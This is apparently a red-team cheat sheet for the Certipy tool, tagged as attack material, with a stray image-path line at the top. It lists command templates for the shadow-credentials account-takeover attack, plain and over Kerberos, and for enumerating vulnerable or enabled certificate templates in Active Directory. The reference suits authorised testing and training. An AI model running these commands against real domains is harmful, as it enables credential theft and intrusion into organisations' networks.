 # certipy
#plateform/linux #target/remote #cat/ATTACK

## Shadow cred
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>'
```
## Shadow cred using kerberos
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>' -k -target <target>
```

## Enumerate vulnerable certificate templates
```
certipy find -vulnerable -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```

## Enumerate enabled certificate templates
```
certipy find -enabled -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```
